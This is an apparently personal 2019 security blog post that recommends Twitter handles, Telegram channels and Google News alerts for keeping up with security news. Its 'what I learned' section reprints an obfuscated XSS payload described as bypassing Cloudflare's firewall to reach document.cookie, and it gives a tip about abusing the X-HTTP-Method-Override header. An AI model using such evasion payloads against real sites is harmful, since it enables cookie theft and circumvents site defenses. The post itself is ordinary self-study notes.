 +++
title = "Today's post"
date = "2019-01-31"
author = ".!"
cover = "bug_1.png"
description = "About resources & what did i learned today in the world of cyberspace."
draft = false
+++
Many of new comers do ask about how do we get to know about latest tac-tic or latest news in the world of cybers space & which are some good resource.

Well i don't know about others but i can tell you where i keep my self up to date about cyberspace.

## Twitter 

Yeah, Twitter is best resource for learning good stuff in cyberspace, there are many good bug hunter and security resercher who share their projects and their methodology which is awsome.

Here are some Twitter Handles

-  @bbuerhaus ‏ 
-  @Hacker_Combat ‏ 
-  @HackRead ‏ 
-  @NakedSecurity ‏ 

You can also follow me on twitter where retweet the tweets which i found interesting and also post sometimes :P

https://twitter.com/Deepak_maxx

## Telegram Channels

Telegram Channels are also good resource of latest updats you can search and join your wish of channels on google, there are many publicly available channels.


## Google

Google news is also one of the best way for latest news.

There's one option called *"alerts"* in the google news app where you can set the alerts you wanna get when anything new arrives regarding that topics.

That's it i guess this are enough resources for new, adding more and more resource won't make you updated and become repetitive instead.

# What I learned today :


So while scrolling across twitter i come through this tweet about bypassing Cloudflare Firewall for XSS :-

```js
<a href="j&Tab;a&Tab;v&Tab;asc&
NewLine;ri&Tab;pt&colon;
\u0061\u006C\u0065\u0072\u0074&
lpar;this['document']['cookie']&
rpar;">Xss</a>
```

And after this i found one good advice about Bug Bounty is :

> *If server only allows GET and POST method, then try adding “X-HTTP-Method -Override: PUT to achieve RCE via PUT method.*

Well That's it.!

I was really busy in making and deploying of this website it took me whole day to make and deploy this website on github that's why didn't got time do learn more stuff but yeah phew.!!,the website is finally up and running.! 

*le Here is the gif expressing my feeling when website was finally/ successfully/ Magically/ I don't know why wtfly.!!! up & running.

<iframe src="https://giphy.com/embed/l46CkATpdyLwLI7vi" width="480" height="361" frameBorder="0" class="giphy-embed" allowFullScreen></iframe><p><a href="https://giphy.com/gifs/yosub-birthday-l46CkATpdyLwLI7vi">via GIPHY</a></p>